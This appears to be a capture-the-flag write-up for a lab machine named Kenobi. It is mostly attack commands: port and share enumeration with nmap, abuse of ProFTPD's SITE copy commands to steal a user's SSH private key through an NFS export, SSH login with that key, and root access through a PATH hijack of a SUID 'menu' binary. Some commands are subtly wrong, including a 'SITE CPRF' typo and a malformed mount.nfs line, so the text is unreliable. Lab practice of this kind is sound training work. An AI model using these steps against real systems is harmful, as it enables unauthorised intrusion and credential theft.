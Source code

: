 # BASIC INFO

```
ip_addr = 10.10.118.198

open port:
	21/tcp		ftp/ProFTPD 1.3.5
	22/tcp		ssh/OpenSSH 7.2p2
	80/tcp		http/Apache httpd 2.4.18
	111/tcp		rpcbind
	139/tcp		netbios-ssn/Samba smbd 3.X - 4.X
	445/tcp		netbios-ssn/Samba smbd 4.3.11-Ubuntu
	2049/tcp	nfs_acl
HOST = KENOBI

```

# ENUMERATING

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmap/enum $IP -T4
```
> shares found: 3
>> guests
>> anonymous
>> print$

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmap/rpc $IP -T4

```
> mount point: /var

# GAINING INITIAL CONTROL WITH PROFTPD

```
nc $IP 21
SITE CPRF /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

mount.nfs $IP:/mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP

```

# PRIV ESC

```
find / -perm -u=s -type f 2>/dev/null
/usr/bin/menu
cd /tmp
echo /bin/bash > ifconfig
chmod 777 ifconfig
export PATH=/tmp:$PATH

/usr/bin/menu
3

```